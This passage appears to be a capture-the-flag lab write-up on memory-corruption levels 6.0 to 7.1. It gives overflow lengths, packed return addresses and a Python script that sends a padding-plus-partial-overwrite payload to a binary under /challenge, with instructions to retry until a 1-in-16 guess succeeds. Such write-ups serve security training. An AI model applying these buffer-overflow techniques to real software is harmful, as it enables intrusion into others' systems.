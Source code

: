 `./memory5.sh 72` 

## Level 6.0

`./memory.sh 56 "\xe0\x16\x40"`

## Level 6.1

`./memory.sh 136 "\xd8\x18\x40"`

## Level 7.0

**script.py**

```python
import os
import sys
import struct
import subprocess

challenge_dir = "/challenge"
file = os.path.join(challenge_dir, os.listdir(challenge_dir)[0])

buffer_size = int(sys.argv[1])
target_address = 0x2830

payload = b"A" * (buffer_size)
target_struct = struct.pack("<H", target_address) # H 2byte; I 4byte
payload += target_struct
payload_len = len(payload)

def execute_attack():
    try:
        process = subprocess.Popen([file], stdin=subprocess.PIPE)
        input_data = f"{payload_len}".encode() + b"\n" + payload
        print(input_data)
        process.communicate(input=input_data)
    except Exception as e:
        print(f"error: {e}")

if __name__ == "__main__":
    print(f"Payload generato ({len(payload)} bytes).")
    print(f"Indirizzo di iniezione: {hex(target_address)}")
    execute_attack()
```

`python script.py 104` run it until you get the fourth byte right (1 in 16 chance)

## Level 7.1

`python script.py 120` run it until you get the fourth byte right (1 in 16 chance)
